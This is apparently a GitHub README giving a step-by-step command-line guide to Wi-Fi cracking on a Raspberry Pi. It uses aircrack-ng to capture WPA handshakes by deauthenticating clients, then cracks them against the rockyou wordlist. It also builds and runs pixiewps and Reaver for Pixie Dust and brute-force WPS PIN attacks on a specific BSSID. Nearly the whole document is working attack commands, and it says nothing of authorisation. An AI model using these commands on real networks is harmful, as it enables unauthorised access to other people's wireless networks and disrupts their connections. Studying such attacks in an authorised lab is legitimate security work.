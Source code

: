 # Raspberry Pi 3: Wireless Security Basic SETUP


## Step 1.0 Tmux

Install it
```
$ sudo apt-get install tmux
```

Start new with session name
```
$ tmux new -s workingStationName
```

List sessions
```
tmux ls
```

kill session
```
tmux kill-session -t workingStationName
```

Go to current session
```
tmux a -t workingStationName
```


## Step 1.1 aircrack-ng         
Install it
```
$ sudo apt-get install aircrack-ng
```

Turn your Wireless to work with airmon-ng
```
$ sudo airmon-ng start wlan1
```

Kill any additional software that can disturbed `airmon-ng` performance
```
$ sudo airmon-ng check kill
```

Start `airodump-ng` to look out for networks
```
$ sudo airodump-ng mon0  
```

Start a new `tmux` session
```
$ tmux new -s ESSIDname_WPA
```

Sniffing IVs, ESSID (network name)
```
$ sudo airodump-ng -c 1 -w COLON --bssid 00:90:4C:C1:AC:21 mon0  
```

Start a new `tmux` session
```
$ tmux new -s ESSIDname_WPA_handshake
```

Get a WPA handshake, inside `ESSIDname_WPA_handshake` session
```
$ aireplay-ng -0 0 -a 00:90:4C:C1:AC:21 mon0
```

After the WPA handshake, get a Wordlists text
```
$ wget http://scrapmaker.com/data/wordlists/dictionaries/rockyou.txt
$ open https://wiki.skullsecurity.org/Passwords
```

Or wordlist generator
```
$ sudo apt-get install crunch
```

Start a new `tmux` session
```
$ tmux new -s ESSIDname_passphrase
```

Find the passphrase, inside the `ESSIDname_passphrase` session, max wait 44hr
```
$ sudo aircrack-ng -w rockyou.txt -b 00:90:4C:C1:AC:21 ESSIDname-*.cap
```



## Step 1.2 Pixie Dust WPS attack with Raver and wash

Getting the System Ready
```
$ sudo apt-get update
$ sudo apt-get install build-essential libsqlite3-dev libpcap-dev sqlite3
```

Download Pixie Dust
```
$ wget https://github.com/wiire/pixiewps/archive/master.zip && unzip master.zip
```

Build it and Install Pixie Dust
```
$ cd pixiewps*/
$ cd src/
$ sudo make
$ sudo make install
$ cd ~
$ rm master.zip
$ sudo mv /usr/local/usr/bin/pixiewps /usr/local/bin
```

Download `Reaver v1.5.3`
```
$ wget https://github.com/t6x/reaver-wps-fork-t6x/archive/master.zip && unzip master.zip
```

Build it and Install `Reaver v1.5.3`
```
$ cd reaver-wps-fork-t6x-master/
$ cd src/
$ ./configure
$ sudo make
$ sudo make install
$ cd ~
$ sudo rm master.zip
```

Start airmon-ng
```
$ sudo airmon-ng start wlan1
```

Find access points
```
$ wash -i mon0
```

Start the Pixie Dust WPS attack
```
$ sudo reaver -i mon0 -b 00:90:4C:C1:AC:21 -c 11 -vvv -K 1 -f
```


## Step 1.3 Wash + Reaver

See the vulnerability to attack
```
sudo wash -i mon0
```

Start new with session
```
$ tmux new -s ESSIDname_8Pin_Attact
```

Start the cracking
```
$ sudo reaver -i mon0 -b 00:90:4C:C1:AC:21 -vv -L
```
